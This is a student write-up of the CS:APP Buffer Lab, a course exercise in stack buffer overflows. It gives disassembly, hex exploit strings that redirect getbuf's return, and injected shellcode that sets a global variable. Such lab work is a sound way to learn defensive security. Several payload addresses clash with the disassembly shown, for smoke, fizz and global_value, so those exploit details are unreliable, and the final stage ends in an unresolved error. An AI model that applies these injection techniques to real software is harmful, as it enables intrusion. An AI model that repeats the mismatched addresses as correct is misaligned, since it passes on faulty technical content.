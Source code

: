 # CS:APP Buffer Lab

### 0. Preface

```c
void test() 
{
	int val;
	/* Put canary on stack to detect possible corruption */ 
	volatile int local = uniqueval();
	
	val = getbuf();
	
	/* Check for corrupted stack */ 
	if (local != uniqueval()) {
		printf("Sabotaged!: the stack has been corrupted\n"); 
	}
    else if (val == cookie) {
		printf("Boom!: getbuf returned 0x%x\n", val); 
		validate(3);
	} 
	else {
		printf("Dud: getbuf returned 0x%x\n", val);
    }
}
```

```
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret    
```

```
// Stack Frame

.bottom (high address)
+ - - - - - - - - - - + ----
|                     | previous frame
|         ...         |
|                     |
| - - - - - - - - - - | ----
|         ...         | caller's frame
| - - - - - - - - - - |
|      argument n     |
| - - - - - - - - - - |
|         ...         |
| - - - - - - - - - - |
|      argument 7     |
| - - - - - - - - - - |
|    return address   |
| - - - - - - - - - - | ----
|        %rbp         | callee's frame (current)
| - - - - - - - - - - |
|   saved registers   |
| - - - - - - - - - - |
|       local n       |
| - - - - - - - - - - |
|         ...         |
| - - - - - - - - - - |
|       local 1       |
| - - - - - - - - - - |
|      argument n     |
| - - - - - - - - - - |
|         ...         |
| - - - - - - - - - - |
|      argument 7     |
+ - - - - - - - - - - + <- %rsp
.top (low address)
```



### 1. Candle

Goal: Before `getbuf()` returns, call `smoke()` instead of returning `test()`.

```c
void smoke()
{
    printf("Smoke!: You called smoke()\n");
    validate(0);
    exit(0);
}
```

```
08048e20 <smoke>:
 8048e20:	55                   	push   %ebp
 8048e21:	89 e5                	mov    %esp,%ebp
 8048e23:	83 ec 08             	sub    $0x8,%esp
 8048e26:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e2d:	e8 6e fb ff ff       	call   80489a0 <entry_check>
 8048e32:	c7 04 24 47 9a 04 08 	movl   $0x8049a47,(%esp)
 8048e39:	e8 d6 f8 ff ff       	call   8048714 <puts@plt>
 8048e3e:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e45:	e8 96 fc ff ff       	call   8048ae0 <validate>
 8048e4a:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e51:	e8 4e f9 ff ff       	call   80487a4 <exit@plt>
 8048e56:	8d 76 00             	lea    0x0(%esi),%esi
 8048e59:	8d bc 27 00 00 00 00 	lea    0x0(%edi,%eiz,1),%edi
```

According to `0x80491fa` in `getbuf()`, we can learn that the length of the buffer in stack is `0x28`. Through the structure of stack frame, we can input excess words to buffer to overwrite the stack pointer and return address of `getbuf()`. So we can fill previous `0x28` bytes with any digits, then add extra address of `smook()` entrance, which is `18 8c 04 08`(little endian).

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 18 8c 04 08
```

Then, convert these bytes to characters using `hex2raw` and send them to buffer.

```
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```



### 2. Sparkler

Goal: Before `getbuf()` returns, call `fizz()` instead of returning `test()`, and pass the cookie as its argument.

```c
void fizz(int val)
{
    if (val == cookie) {
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    } else
        printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```

```
08048dc0 <fizz>:
 8048dc0:	55                   	push   %ebp
 8048dc1:	89 e5                	mov    %esp,%ebp
 8048dc3:	53                   	push   %ebx
 8048dc4:	83 ec 14             	sub    $0x14,%esp
 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx
 8048dca:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048dd1:	e8 ca fb ff ff       	call   80489a0 <entry_check>
 8048dd6:	3b 1d cc a1 04 08    	cmp    0x804a1cc,%ebx
 8048ddc:	74 22                	je     8048e00 <fizz+0x40>
 8048dde:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048de2:	c7 04 24 98 98 04 08 	movl   $0x8049898,(%esp)
 8048de9:	e8 76 f9 ff ff       	call   8048764 <printf@plt>
 8048dee:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048df5:	e8 aa f9 ff ff       	call   80487a4 <exit@plt>
 8048dfa:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
 8048e00:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048e04:	c7 04 24 29 9a 04 08 	movl   $0x8049a29,(%esp)
 8048e0b:	e8 54 f9 ff ff       	call   8048764 <printf@plt>
 8048e10:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048e17:	e8 c4 fc ff ff       	call   8048ae0 <validate>
 8048e1c:	eb d0                	jmp    8048dee <fizz+0x2e>
 8048e1e:	89 f6                	mov    %esi,%esi
```

Generally, the argument will be stored in `0x8(%ebp)`, so we can put additional bytes as argument after return address.

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 42 8c 04 08 00 00 00 00 45 32 2a 1c
```

Note that `42 8c 04 08` is the address of `fizz()`, and the `45 32 2a 1c` is the cookie. Both of them are represented in little endian.

```
Type string:Fizz!: You called fizz(0x1c2a3245)
VALID
NICE JOB!
```



### 3. Firecracker

Goal: Before `getbuf()` returns, call `bang()` instead of returning `test()`, and change the global variable to the cookie.

```c
int global_value = 0;

void bang(int val)
{
    if (global_value == cookie) {
    	printf("Bang!: You set global_value to 0x%x\n", global_value);
    	validate(2);
    } else
    	printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```

```
08048d60 <bang>:
 8048d60:	55                   	push   %ebp
 8048d61:	89 e5                	mov    %esp,%ebp
 8048d63:	83 ec 08             	sub    $0x8,%esp
 8048d66:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048d6d:	e8 2e fc ff ff       	call   80489a0 <entry_check>
 8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax
 8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax
 8048d7d:	74 21                	je     8048da0 <bang+0x40>
 8048d7f:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048d83:	c7 04 24 0b 9a 04 08 	movl   $0x8049a0b,(%esp)
 8048d8a:	e8 d5 f9 ff ff       	call   8048764 <printf@plt>
 8048d8f:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048d96:	e8 09 fa ff ff       	call   80487a4 <exit@plt>
 8048d9b:	90                   	nop
 8048d9c:	8d 74 26 00          	lea    0x0(%esi,%eiz,1),%esi
 8048da0:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048da4:	c7 04 24 70 98 04 08 	movl   $0x8049870,(%esp)
 8048dab:	e8 b4 f9 ff ff       	call   8048764 <printf@plt>
 8048db0:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048db7:	e8 24 fd ff ff       	call   8048ae0 <validate>
 8048dbc:	eb d1                	jmp    8048d8f <bang+0x2f>
 8048dbe:	89 f6                	mov    %esi,%esi
```

We can't change the code in `test()` or `bang()`, what we can do to change the global value? The answer is the buffer, we can inject code into the buffer. 

We can get the address of `global_value` through disassembly code, it is `0x0804d100`. By setting break point in `getbuf()`, we can get the buffer address.

```
(gdb) p/x ($ebp-0x28)
$1 = 0x55683be8
```

The code we are going to inject into buffer does two main things, change global value and change return address to `bang()`.

```
00000000 <.text>:
   0:	c7 05 00 d1 04 08 45 	movl   $0x1c2a3245,0x804d100
   7:	32 2a 1c 
   a:	68 60 8d 04 08       	push   $0x8048d60
   f:	c3                   	ret  
```

The code is 16 bytes large, will not destroy the structure of stack frame. The input bytes are shown below.

```
c7 05 00 d1 04 08 45 32 2a 1c 68 60 8d 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 e8 3b 68 55
```

Note that the program need to be executed in `gdb` with `execstack`. It should be

```
Type string:Bang!: You set global_value to 0x1c2a3245
VALID
NICE JOB!
```

But, I bumped this problem while using `execstack` and couldn't solve it. 

```
> execstack -s bufbomb
execstack: bufbomb: section file offsets not monotonically increasing.
```

